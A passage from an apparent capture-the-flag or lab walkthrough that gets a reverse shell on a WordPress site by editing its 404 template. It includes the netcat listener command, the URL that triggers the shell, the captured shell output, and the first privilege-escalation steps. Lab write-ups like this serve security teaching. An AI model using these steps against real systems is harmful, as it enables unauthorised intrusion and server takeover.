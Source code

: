 Save the template. When the script is run it will try to establish a TCP network connection to the configured ip address (`10.0.2.15`) and port (`1234`).

Before we trigger the script we need to configure our computer to listen for a connection on port `1234`.

Tools:
 * [netcat/nc - arbitrary TCP and UDP connections and listens](https://linux.die.net/man/1/nc)

Netcat, or `nc` for short, is a swiss army knife for all such networking tasks.

We will create a netcat listener to catch the connection from the wordpress site.

```
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
```

Now, while the netcat listener is running trigger the reverse shell script by visiting a non existent URL on the website, causing wordpress to process the  `404 Template` with our reverse shell script.

http://10.0.2.5/idontexist

Check your netcat listener and see it's now connected!

```
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 42478
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 13:31:05 up  2:08,  1 user,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
robot    tty1                      11:24    2:06m  0.08s  0.02s -bash
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Congratulations you now have an interactive reverse shell to the website. But what can we do with that?

## Privilege Escalation

We need to figure out what we can do on the server. Lets first check what user we are logged in as.

```
$ whoami  
daemon
```

Currently we are logged in as the daemon - the process which the website is running on. Good sysadmins normally try to minimize daemon processes access all unnecessary parts of the system so we could try switch to a different user.

Lets see what users have home folders on the server.
